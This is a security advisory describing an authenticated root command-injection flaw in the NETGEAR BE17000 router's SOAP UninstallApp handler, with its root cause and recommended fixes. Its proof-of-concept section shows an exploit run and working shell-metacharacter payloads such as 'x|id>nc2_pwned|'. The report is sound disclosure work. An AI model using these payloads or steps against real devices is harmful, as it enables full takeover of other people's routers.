

# NETGEAR BE17000: Authenticated OS Command Injection in SOAP `AppSystem:1#UninstallApp` (`NewAppName`, Zero Validation)

- **Report date**: 2026-10-06
- **Vendor**: NETGEAR

---

## Summary

NETGEAR BE17000 (RS600) routers running the latest released firmware build a shell command from the `NewAppName` argument of the SOAP action `AppSystem:1#UninstallApp` and run it through `popen()` with **no input validation at all**. The handler (`sub_E64D4` in `/usr/sbin/net-cgi`) only checks that `/storage/system/apps/<NewAppName>` exists with `access()`; if the directory exists, `snprintf(buf, 0x200, "%s status", NewAppName)` is popped straight into `/bin/sh -c`. Any admin-authenticated attacker (or anyone who hijacks an admin SOAP session) can therefore execute arbitrary OS commands as root by naming an app with shell metacharacters. The metacharacter-named directory cannot be planted through the companion InstallApp action (its own command templates parse the name as a pipeline), so exploitation requires such a directory to already exist under `/storage/system/apps/` — e.g. the leftover of a malicious app backup/restore, or another installer weakness.

## Affected Products, Models and Versions

| Product | Hardware / Board | Firmware | Status |
|---|---|---|---|
| NETGEAR BE17000 (RS600) | Broadcom HND, all hardware revisions | `BE17000-V1.2.7.2.img` (build date 2026-07-06, latest release as of this report; SHA256 `f73eef832dcf2ece5ba15fa59b147894d644c27fccf80254e376e392c048328a`) | **Verified vulnerable** |

## Technical Details (Root Cause)

1. The SOAP endpoint `/soap/server_sa` is served by net-cgi (authenticated: the dispatcher requires an admin session — `jwt_local` cookie from the stock `/apply.cgi` admin login).
2. `AppSystem:1#UninstallApp` resolves to `sub_E64D4`. ARM assembly of the sink, read instruction by instruction:

```
0xE65A4  BL  sub_92FA0      ; R8 = NewAppName (attacker controlled XML value)
0xE65F8  R2  = "%s status"
0xE660C  BL  sub_84B4C      ; snprintf(buf, 0x200, "%s status", R8)
0xE661C  BL  sub_85F9C      ; popen(buf, "r") -> /bin/sh -c   <- sink
```

3. The only gate before the sink is `access("/storage/system/apps/<NewAppName>")`; a missing directory returns `ResponseCode 402` and the handler exits.
4. There is **no character validation** on `NewAppName` — unlike the InstallApp validator, nothing here rejects `;`, `|`, `&`, `$()`, spaces or quotes.
5. Dynamic chain finding (important correction to the initial audit hypothesis): planting the metacharacter-named directory through `AppSystem:1#InstallApp` does **not** work, because InstallApp's own sink template is itself a shell command — `mkdir -p /storage/system/apps/x|name|/` is parsed by the shell as `mkdir -p .../x | name | /`, which only creates the plain directory `x`. Consequently `UninstallApp`'s `access()` gate keeps returning 402 for injected names planted that way. NC-2 fires when an app directory with a shell-active name already exists (malicious app backup/restore leftover, third-party app store residue, or any other path that creates such a directory).

## Proof of Concept / Reproduction Steps

Prerequisites: a valid admin session (the exploit performs the stock admin login itself: `POST /apply.cgi` `submit_flag=admin_login` with the double-base64 password encoding) and an app directory named like the payload (the lab creates it locally with `--plant-local`, standing in for a pre-existing metachar-named directory; on a real device use `--no-plant` once such a directory exists).

```bash
$ sudo python3 exploit_nc2_uninstallapp_cmdi.py http://127.0.0.1:18082 \
  -p password \
  --timestamp "$(date +%s)" \
  --check-fs /home/iotsec-zone/be17000_sso_work/www/nc2_pwned
[*] NETGEAR BE17000 V1.2.7.2 - NC-2 SOAP AppSystem UninstallApp command injection (PoC 1.1)
[*] target      : http://127.0.0.1:18082
[*] app name    : x|id>nc2_pwned|
[*] step 1: admin login (apply.cgi, encode_twice password)...
[+] admin login OK (jwt_local session established)
[*] step 2 (--plant-local): creating app directory /home/iotsec-zone/be17000_sso_work/storage/system/apps/x|id>nc2_pwned|
[+] directory created (lab stand-in for a pre-existing metachar-named app dir)
[*] step 3: POST SOAP AppSystem:1#UninstallApp (NewAppName = x|id>nc2_pwned|)...
[*] UninstallApp HTTP 200, ResponseCode = 0
[*] step 4: polling /home/iotsec-zone/be17000_sso_work/www/nc2_pwned for the command marker (up to 45s)...
[+] MARKER CONTENT:
uid=0(root) gid=0(root) groups=0(root)
[+] CONFIRMED: authenticated OS command injection via SOAP AppSystem:1#UninstallApp
[+]          (zero-validation '%s status' popen; command executed as root)
```

The original validation additionally captured the sink at execve level: `execve("/bin/sh", ["sh","-c","x;touch /tmp/nc2_pwned; status"])` → `execve("/bin/touch",...)` with the marker file on disk (`workdir/evidence/nc23_evidence/nc2_strace2.log`).



**Expected vs. actual behavior**

| | |
|---|---|
| **Expected** | An app name is an identifier: validated against a strict allow-list, canonicalized, and never placed on a shell command line. |
| **Actual** | `NewAppName` is concatenated into `"%s status"` and executed by `/bin/sh` with zero validation; the only gate is a directory-existence check. |

## Security Impact

- Root command execution with any valid admin session (CSRF-able if an attacker can ride a browser session). Same impact class as NC-3: full device compromise.
- The missing validation is a textbook CWE-78 sink; combined with NC-3's installer it extends the app-lifecycle attack surface (install/uninstall/status/upgrade all pass the name to shell templates).

## Recommended Fix

1. Replace `popen("%s status")` with `execve`/`posix_spawn` using an argv array (`{appctl, "status", name, NULL}`); never involve a shell.
2. Enforce a strict allow-list for app names at every entry point (`[A-Za-z0-9._-]`), and canonicalize/reject any name containing shell metacharacters or path separators.
3. Audit the whole AppSystem action family (`InstallApp`/`UninstallApp`/`GetAppOnDevice`/upgrade): every `%s`-into-shell template must go.

## Mitigation for End Users (until a fix ships)

None available from the GUI. Keep the admin password strong and the management interface off untrusted networks; avoid installing third-party "apps" (the app directory names they create become injection material).

## Attachments

- `exploit_nc2_uninstallapp_cmdi.py` — one-click PoC (admin login + plant + trigger + marker verification; stdlib only).

## Researcher Contact & Credit

- **Name**: 【Lumina】
- **Contact**: 【1547800591@qq.com】
